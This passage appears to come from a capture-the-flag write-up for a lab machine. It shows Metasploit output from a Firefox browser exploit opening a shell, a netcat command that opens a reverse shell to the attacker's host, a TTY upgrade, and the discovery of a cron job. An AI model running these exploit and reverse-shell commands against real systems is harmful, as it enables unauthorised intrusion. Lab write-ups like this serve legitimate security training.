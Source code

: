 ```bash
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > [*] 192.168.110.151  firefox_proto_crmfrequest - Gathering target information for 192.168.110.151           
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML response to 192.168.110.151                                                                           
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML                                                                                                       
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending the malicious addon                                                                                        
[*] Command shell session 1 opened (192.168.110.150:4444 -> 192.168.110.151:42386) at 2021-09-11 23:04:53 -0500                                                     
                                                                                                                                                                    
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > sessions -i 1
[*] Starting interaction with 1...

uid=1000(peter) gid=1000(peter) groups=1000(peter),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(scanner),115(bluetooth),1003(fishermen)
[*] 192.168.110.151 - Command shell session 1 closed.
```

We have an unstable shell so I decided to switch to a netcat reverse shell.

```bash
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > 
[*] 192.168.110.151  firefox_proto_crmfrequest - Gathering target information for 192.168.110.151
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML response to 192.168.110.151
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending the malicious addon
[*] Command shell session 2 opened (192.168.110.150:4444 -> 192.168.110.151:42411) at 2021-09-11 23:12:50 -0500

msf6 exploit(multi/browser/firefox_proto_crmfrequest) > sessions -i 2
[*] Starting interaction with 2...

nc 192.168.110.150 443 -e /bin/bash
```

I upgraded to a full TTY shell, and I could see the script that visits the blog every 4 minutes.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.110.150] from (UNKNOWN) [192.168.110.151] 34017
script -qc /bin/bash /dev/null
peter@breach2:~$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443

peter@breach2:~$ export TERM=screen
peter@breach2:~$ stty rows 39 columns 164
peter@breach2:~$ ls
Desktop  Documents  Downloads  firefox.sh  Music  Pictures  Public  Templates  Videos
peter@breach2:~$ cat firefox.sh 
#!/bin/bash

xvfb-run --auto-servernum --server-num=1 /opt/firefox/firefox http://192.168.110.151/blog/members.html
peter@breach2:~$ crontab -l
...
*/4 * * * * cd /home/peter && ./firefox.sh
```
